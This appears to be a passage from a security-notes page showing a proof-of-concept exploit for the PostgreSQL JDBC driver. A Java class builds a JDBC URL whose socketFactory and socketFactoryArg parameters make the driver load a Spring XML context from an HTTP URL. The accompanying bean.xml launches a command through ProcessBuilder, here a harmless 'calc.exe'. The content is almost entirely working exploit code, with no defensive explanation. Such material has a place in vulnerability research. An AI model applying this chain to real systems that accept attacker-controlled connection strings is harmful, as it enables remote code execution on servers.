 === "pgRCE.java"

    ```java
    import java.sql.Connection;
    import java.sql.DriverManager;

    public class pgRCE {
        public static void main(String[] args) throws Exception{
            String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
            String socketFactoryArg = "http://127.0.0.1:7978/bean.xml";
            String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
            Connection connection = DriverManager.getConnection(jdbcUrl);
        }
    }
    ```
=== "bean.xml"

    ```xml
    <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:p="http://www.springframework.org/schema/p"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
            http://www.springframework.org/schema/beans/spring-beans.xsd">
    <!--    普通方式创建类-->
    <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>calc.exe</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
    ```

![alt text](img/postgrerce.png){loading=“lazy”}
